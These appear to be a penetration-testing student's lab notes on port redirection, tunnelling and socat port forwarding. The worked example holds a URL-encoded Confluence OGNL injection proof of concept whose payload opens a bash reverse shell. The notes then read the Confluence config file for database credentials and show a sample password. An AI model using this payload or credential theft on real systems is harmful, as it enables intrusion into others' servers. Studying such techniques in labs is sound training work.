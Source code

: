 - Getting through *Firewalls* and *Deep Packet Inspection*
	- *Port redirection*
		- (i.e various types of *port forwarding*)
		- means modifying the flow of data so that packets sent to one _socket_ will be taken and passed to another socket
	- *Tunneling*
		- means  encapsulating one type of data stream within another, for example, transporting _Hypertext Transfer Protocol_ (HTTP) traffic within a _Secure Shell_ (SSH) connection (so from an external perspective, only the SSH traffic will be visible).

# Port Forwarding with Linux Tools

- Port Forwarding
	- we configure a host to listen on one port and relay all packets received on that port to another destination

### A Simple Port Forwarding Scenario
- Example:
	- Exploit POC:
		- ```curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/```
		- URL decode
			- Burp (or)
			- CyberChef
		- ```/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}/```
			- OGNL injection paylods
			- OGNL = Object-Graph Notation Language
				- used in Java apps
				- happens when weak sanitization
			- this paylods needs partly un-encoded (.,-,/)
		- obtained reverse shell
		- ```ip addr```
			- check network interfaces
		- ```ip route```
			- check routes
		- finding confluence config file & finding Postgres DB IP and port in file
			- ```cat /var/atlassian/application-data/confluence/confluence.cfg.xml```
		D@t4basePassw0rd!
- port fowarding to acces Postgre SQL on DMZ'd host
![[Pasted image 20240120131336.png]]
### Port Forwarding with Socat

- *Socat*
	- networking tool
	- usually not installed
		- possible to download and run a statically-linked binary version
	- Example:```socat -ddd TCP-LISTEN:2345,fork TCP:10.4.199.215:5432```
		- -ddd = verbose
		- fork = new subprocess
		- forwarding listening host port (TCP-LISTEN) traffic to TGT port (TCP:)
- network is now set up like this:
![[Pasted image 20240120132128.png]]
